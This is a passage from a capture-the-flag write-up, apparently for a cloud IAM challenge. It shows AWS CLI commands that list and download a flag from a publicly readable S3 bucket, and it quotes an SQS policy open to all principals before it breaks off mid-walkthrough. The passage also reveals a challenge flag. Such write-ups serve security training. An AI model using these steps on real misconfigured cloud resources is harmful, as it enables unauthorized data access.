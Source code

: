    ```bash
   aws s3 ls thebigiamchallenge-storage-9979f4b
   PRE files/
   aws s3 ls thebigiamchallenge-storage-9979f4b/files/
   2023-06-05 19:13:53         37 flag1.txt
   ```

3. **Downloading the Flag:**
   - I downloaded `flag1.txt` from the bucket using the `aws s3 cp` command.

   ```bash
   aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt
   ```

4. **Flag Extraction:**
   - Upon opening the downloaded `flag1.txt`, I found the following flag:

   ```
   {wiz:exposed-storage-risky-as-usual}
   ```

---

### Challenge 2: AWS SQS Exploit

#### Objective:

This challenge revolves around exploiting an AWS SQS (Simple Queue Service) to retrieve the secret flag. The permissions on the SQS allow both `SendMessage` and `ReceiveMessage` actions from any principal.

#### Steps Taken:

1. **IAM Policy Analysis:**
   - The policy grants access to the SQS queue for both `SendMessage` and `ReceiveMessage` actions for all users.

   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Allow",
         "Principal": "*",
         "Action": [
           "sqs:SendMessage",
           "sqs:ReceiveMessage"
         ],
         "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
       }
     ]
   }
   ```

2. **Receiving a Message from SQS:**
   - I used the AWS CLI to receive messages from the queue. The output included a message with a URL to an S3 bucket.
